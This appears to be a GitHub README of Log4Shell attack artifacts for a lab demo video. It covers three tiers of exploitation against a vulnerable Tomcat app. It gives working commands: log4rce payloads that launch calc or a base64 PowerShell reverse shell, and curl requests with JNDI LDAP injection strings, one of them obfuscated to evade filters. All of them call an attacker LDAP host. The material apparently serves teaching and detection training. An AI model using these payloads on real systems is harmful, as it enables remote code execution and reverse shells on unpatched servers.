

# Attack Artifacts

Three exploits / three payloads / three detections

See us walkthrough the attack at https://www.youtube.com/watch?v=X7cLgDoX6KU

**1. Easy mode: Web browser + GET + Huntress**
* https://log4shell.huntress.com/
* Use [CyberChef](https://gchq.github.io/CyberChef/) to URL Encode 
* Browser to vulnerable Tomcat app http://10.0.0.5:8080/log4j/api/demo/get?x=
* View DNS query call out in Huntress Log4shell view

**2. Medium: User-Agent string + RCE Calc**
* Setup our own 1st stage malicious LDAP + 2nd stage serving malicious Java code
* Using [Log4rce](https://github.com/alexandre-lavoie/python-log4rce) (other popular one [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)) 
* `python3 log4rce.py --payload "cmd.exe /c calc.exe" --rhost 10.0.0.6 manual`
* `curl -A '${jndi:ldap://10.0.0.6:1387/Exploit}' http://10.0.0.5:8080/log4j/api/vulnerable/user`

**3. Advanced: POST + Obfuscation + RCE + Reverse interactive shell**
* Get base64 reverse shell (https://www.revshells.com/ or mkrevshell.py) to Attacker 10.0.0.6 on port 88 
* `python3 log4rce.py --payload "powershell -e <base64 payload>" --rhost 10.0.0.6 manual`
* `curl -d 'foo=${${::-j}${::-n}${::-d}${::-i}:ldap://10.0.0.6:1387/Exploit}' -X POST http://10.0.0.5:8080/log4j/api/vulnerable/post`
